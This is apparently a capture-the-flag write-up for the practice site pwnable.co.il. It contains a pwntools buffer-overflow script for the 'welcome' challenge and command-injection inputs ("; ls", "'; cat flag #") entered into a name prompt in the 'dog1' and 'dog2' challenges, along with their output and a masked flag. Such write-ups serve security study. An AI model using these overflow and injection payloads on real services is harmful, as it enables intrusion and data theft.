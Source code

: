 # pwnable.co.il
pwnable.co.il my solutions


## welcome

```python
from pwn import *

r = remote('pwnable.co.il', 9000)
exe = ELF('welcome')
r.recvuntil('name?\n')
offset = 40

payload = b'a'*offset 
payload += p64(0x000000000040076c)
payload += p64(0x400708)
#print(payload)
r.sendline(payload)
r.interactive()
```


## dog1

first run ` ; ls ` in order to check what files are in the current direcotry
```
tal@tal-VirtualBox:~$ nc pwnable.co.il 9013

Hello!

What's your name?
; ls

Hello
dog
flag
ynetd
Thanks!
```
there is ` flag `, Lets cat it!
Hello!
```
What's your name?

; cat flag 

Hello
PWNIL{XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX}
Thanks!
```

## dog2

first run ` '; ls # ` in order to check what files are in the current direcotry

```
tal@tal-VirtualBox:~$ nc pwnable.co.il 9016

Hello!

What's your name?
'; ls #

Hello
dog2
flag
ynetd
Thanks!
```

now, Lets read from flag!

```
tal@tal-VirtualBox:~$ nc pwnable.co.il 9016
Hello!
What's your name?
'; cat flag #

Hello 
PWNIL{XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX}
Thanks!
```

